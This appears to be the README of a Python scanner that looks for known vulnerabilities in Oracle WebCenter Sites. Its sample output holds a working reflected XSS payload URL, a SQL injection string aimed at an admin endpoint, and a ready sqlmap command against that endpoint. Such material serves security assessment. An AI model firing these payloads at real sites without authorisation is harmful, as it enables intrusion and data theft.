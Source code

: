 # wcs_scanner
#### WebCenter Sites Vulnerability Scanner

Scan Oracle WebCenter Sites platform looking for its known vulnerabilities.

## Usage
```bash
python3 wcs_scanner.py http://example.com
```

**Example output**
```text
[!] Start scanning http://example.com

[*] Look for default login page
[-] Default login page not found

[*] Testing XSS
[+] Possible XSS found: http://example.com/cs/Satellite?c=qqqq&cid=qqqq&pagename=OpenMarket/Gator/FlexibleAssets/AssetMaker/confirmmakeasset&cs_imagedir=qqq"><script>alert(24)</script>
[...]

[*] Testing Broken Access Control
[+] Possible Broken Access Control found: http://example.com/cs/Satellite?pagename=OpenMarket/Xcelerate/Admin/WebReferences

[*] Testing SQL Injection
[+] Possible SQLi found POST /cs/ContentServer {'_authkey_': '...', 'pagename': 'OpenMarket/Xcelerate/Admin/WebReferences', 'op': 'search', 'urlsToDelete': '', 'resultsPerPage': 25, 'searchChoice': 'webroot', 'searchText': "' or '1'='1 -- "}
[*] You should test this with sqlmap:
sqlmap --dbms Oracle --url http://example.com/cs/ContentServer --data "_authkey_=...&pagename=OpenMarket/Xcelerate/Admin/WebReferences&op=search&urlsToDelete=&resultsPerPage=25&searchChoice=webroot&searchText=*" --cookie "JSESSIONID=..." --technique U

```

## Reference:
- https://outpost24.com/blog/Vulnerabilities-discovered-in-Oracle-WebCenter-Sites
- https://www.exploit-db.com/exploits/44752


## TODO
Nuclei templates for:
- cve-2019-2578
- cve-2019-2579
